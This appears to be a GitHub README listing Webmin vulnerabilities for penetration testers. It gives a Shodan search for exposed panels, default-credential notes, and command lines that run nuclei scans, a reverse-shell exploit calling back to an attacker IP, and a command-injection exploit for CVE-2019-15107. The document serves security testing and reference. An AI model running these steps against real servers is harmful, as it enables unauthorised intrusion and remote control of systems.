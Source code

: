 # Webmin CVE
a Curated list of Webmin vulnerability for penetration tester



## What is Webmin?
Webmin is a web-based interface for system administration for Unix. Using any modern web browser, you can setup user accounts, Apache, DNS, file sharing and much more.


## Shodan Dork
```
http.html:"webmin"
```

## default credential
root:unix_root_password
You should be able to login as root, using the same password as the root Unix user on your Linux system. However, if you change the Unix root password in future the Webmin root user will not change. This is because the package install just copies the current password from the /etc/shadow file.

## installing url
```
 http://_your-systems-hostname_:10000/
```


## CVE-2022-0824
Improper Access Control to Remote Code Execution in GitHub repository webmin/webmin prior to 1.990.
Webmin 1.984 and below - File Manager privilege exploit (CVE-2022-0824 and CVE-2022-0829)
Less privileged Webmin users who do not have any File Manager module restrictions configured can access files with root privileges, if using the default Authentic theme


```
nuclei -u target.com:1000 -t CVE-2022-0824.yaml -v -V username=username -V password=password

python3 Webmin-revshell.py -t [TARGET] -c [CREDENTIAL] -LS [PY3HTTP_SERVER] -L [CALLBACK_IP] -P [CALLBACK_PORT]
```



## CVE-2022-36446
software/apt-lib.pl in Webmin before 1.997 lacks HTML escaping for a UI command.

```
nuclei -u target.com:1000 -t CVE-2022-36446.yaml -v -V username=username -V password=password
```


## CVE-2019-15107
An issue was discovered in Webmin <=1.920. The parameter old in password_change.cgi contains a command injection vulnerability.

```
python2 CVE_2019_15107.py https://target-ip:10000 cmd
```



## references
* [CVE-2022-0824](https://nvd.nist.gov/vuln/detail/cve-2022-0824)
* [installing webmin](https://doxfer.webmin.com/Webmin/Installing_Webmin)
* [Webmin Security Vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-358/Webmin.html)
* [CVE-2022-36446](https://www.tenable.com/cve/CVE-2022-36446)
* [CVE-2019-15107 Webmin RCE <=1.920 (unauthorized)](https://github.com/jas502n/CVE-2019-15107)
* [Webmin-CVE-2022-0824-revshell](https://github.com/faisalfs10x/Webmin-CVE-2022-0824-revshell)